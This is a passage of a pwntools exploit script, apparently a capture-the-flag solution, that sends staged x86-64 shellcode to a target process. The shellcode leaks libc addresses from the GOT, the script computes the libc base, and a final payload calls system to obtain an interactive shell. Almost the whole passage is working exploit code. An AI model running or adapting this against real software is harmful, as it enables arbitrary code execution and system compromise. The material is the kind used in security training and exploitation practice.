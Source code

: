```py
log.info("Payload 4: Leak libc addreses")

puts_libc_got = 0x601018
mmap_libc_got = 0x601020

# print libc@got
payload = ""
payload += asm("mov r8, rax")
payload += asm("xor rdi, rdi")
payload += asm("inc rdi")
payload += asm("mov rsi, " + hex(puts_libc_got))
payload += asm("mov rdx, 8")
payload += asm("xor rax, rax")
payload += asm("inc rax")
payload += asm("syscall")

# print mmap@got
payload += asm("xor rdi, rdi")
payload += asm("inc rdi")
payload += asm("mov rsi, " + hex(mmap_libc_got))
payload += asm("mov rdx, 8")
payload += asm("xor rax, rax")
payload += asm("inc rax")
payload += asm("syscall")

# go back to reading more shellcode for the next payload
payload += asm("mov rsi, r8")
payload += asm("sub rsi, 18")
payload += asm("mov rdx, 0x100")
payload += asm("push 0x400741")
payload += asm("ret")

print len(payload)
pause()

p.sendline(payload)

p.recvuntil("10 bytes:\n")
puts_libc = u64(p.recv(8))
mmap_libc = u64(p.recv(8))

log.info("puts@libc: " + hex(puts_libc))
log.info("mmap@libc: " + hex(mmap_libc))

libc_base = puts_libc - libc.symbols["puts"]
log.info("libc base: " + hex(libc_base))

log.info("Payload 5: one_gadget")
one_gadget = libc_base + 0x4f322 # 0x47c46
log.info("one_gadget: " + hex(one_gadget))

payload = ""
payload += asm("mov rax, " + hex(libc_base + libc.symbols["system"]))
payload += asm("push rax")
payload += asm("mov rdi, " + hex(libc_base + 0x1b3e9a))
payload += asm("ret")

pause()
p.sendline(payload)

p.interactive()
```
